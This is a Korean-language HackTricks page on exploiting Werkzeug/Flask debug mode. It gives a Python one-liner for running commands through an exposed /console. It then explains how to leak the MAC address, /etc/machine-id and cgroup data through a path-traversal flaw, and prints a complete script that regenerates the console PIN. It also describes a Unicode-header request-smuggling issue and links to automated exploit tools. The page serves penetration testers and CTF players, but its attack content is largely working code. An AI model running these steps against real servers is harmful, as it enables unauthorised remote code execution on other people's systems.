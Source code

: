 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구와 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 우리는 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

디버그가 활성화되어 있으면 `/console`에 접근하여 RCE를 얻으려고 시도할 수 있습니다.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

인터넷에는 [이것](https://github.com/its-arun/Werkzeug-Debug-RCE)과 같은 여러 익스플로잇이 있습니다. 또는 메타스플로잇에서 하나를 찾을 수 있습니다.

## 핀 보호 - 경로 탐색

일부 경우 **`/console`** 엔드포인트는 핀으로 보호됩니다. **파일 탐색 취약점**이 있는 경우 해당 핀을 생성하는 데 필요한 모든 정보를 유출할 수 있습니다.

### Werkzeug 콘솔 PIN 익스플로잇

앱에서 디버그 오류 페이지를 강제로 표시하여 이를 확인하십시오:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
"console locked" 시나리오에 대한 메시지가 Werkzeug의 디버그 인터페이스에 접근하려고 할 때 나타나며, 콘솔 잠금을 해제하기 위한 PIN이 필요함을 나타냅니다. PIN을 해제하기 위해 Werkzeug의 디버그 초기화 파일(`__init__.py`)에서 PIN 생성 알고리즘을 분석하여 콘솔 PIN을 악용할 것을 제안합니다. PIN 생성 메커니즘은 [**Werkzeug 소스 코드 저장소**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py)에서 연구할 수 있지만, 잠재적인 버전 불일치로 인해 실제 서버 코드를 파일 탐색 취약점을 통해 확보하는 것이 좋습니다.

콘솔 PIN을 악용하기 위해 두 세트의 변수가 필요합니다: `probably_public_bits`와 `private_bits`.

#### **`probably_public_bits`**

* **`username`**: Flask 세션을 시작한 사용자를 나타냅니다.
* **`modname`**: 일반적으로 `flask.app`으로 지정됩니다.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: 일반적으로 **Flask**로 해결됩니다.
* **`getattr(mod, '__file__', None)`**: Flask 디렉토리 내의 `app.py`에 대한 전체 경로를 나타냅니다 (예: `/usr/local/lib/python3.5/dist-packages/flask/app.py`). `app.py`가 적용되지 않는 경우, **`app.pyc`를 시도하십시오**.

#### **`private_bits`**

* **`uuid.getnode()`**: 현재 머신의 MAC 주소를 가져오며, `str(uuid.getnode())`는 이를 10진수 형식으로 변환합니다.
* **서버의 MAC 주소를 확인하기 위해**, 앱에서 사용되는 활성 네트워크 인터페이스를 식별해야 합니다 (예: `ens3`). 불확실한 경우, **`/proc/net/arp`를 누출하여 장치 ID를 찾은 다음, **`/sys/class/net/<device id>/address`**에서 MAC 주소를 추출하십시오.
* 16진수 MAC 주소를 10진수로 변환하는 방법은 아래와 같습니다:

```python
# 예시 MAC 주소: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` 또는 `/proc/sys/kernel/random/boot_id`의 데이터를 마지막 슬래시(`/`) 이후의 `/proc/self/cgroup`의 첫 번째 줄과 연결합니다.

<details>

<summary>`get_machine_id()` 코드</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

모든 필요한 데이터를 수집한 후, 익스플로잇 스크립트를 실행하여 Werkzeug 콘솔 PIN을 생성할 수 있습니다:

모든 필요한 데이터를 수집한 후, 익스플로잇 스크립트를 실행하여 Werkzeug 콘솔 PIN을 생성할 수 있습니다. 이 스크립트는 조립된 `probably_public_bits`와 `private_bits`를 사용하여 해시를 생성한 다음, 최종 PIN을 생성하기 위해 추가 처리를 수행합니다. 아래는 이 프로세스를 실행하기 위한 Python 코드입니다:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
이 스크립트는 연결된 비트를 해싱하고 특정 솔트(`cookiesalt` 및 `pinsalt`)를 추가하며 출력을 형식화하여 PIN을 생성합니다. 실제 `probably_public_bits` 및 `private_bits`의 값은 Werkzeug 콘솔에서 예상되는 PIN과 일치하도록 목표 시스템에서 정확하게 얻어야 한다는 점에 유의하는 것이 중요합니다.

{% hint style="success" %}
**오래된 버전**의 Werkzeug를 사용 중이라면 해싱 알고리즘을 sha1 대신 **md5로 변경**해 보십시오.
{% endhint %}

## Werkzeug 유니코드 문자

[**이 문제**](https://github.com/pallets/werkzeug/issues/2833)에서 관찰된 바와 같이, Werkzeug는 헤더에 유니코드 문자가 포함된 요청을 닫지 않습니다. 그리고 [**이 글**](https://mizu.re/post/twisty-python)에서 설명된 바와 같이, 이는 CL.0 요청 스머글링 취약점을 유발할 수 있습니다.

이는 Werkzeug에서 일부 **유니코드** 문자를 전송할 수 있으며, 이로 인해 서버가 **중단**될 수 있기 때문입니다. 그러나 HTTP 연결이 **`Connection: keep-alive`** 헤더로 생성된 경우 요청의 본문은 읽히지 않으며 연결은 여전히 열려 있으므로 요청의 **본문**은 **다음 HTTP 요청**으로 처리됩니다.

## 자동화된 악용

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## 참고 문헌

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**취약성 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행하십시오. 우리는 침투 테스터를 대체하지 않습니다 - 우리는 그들이 더 깊이 파고들고, 셸을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

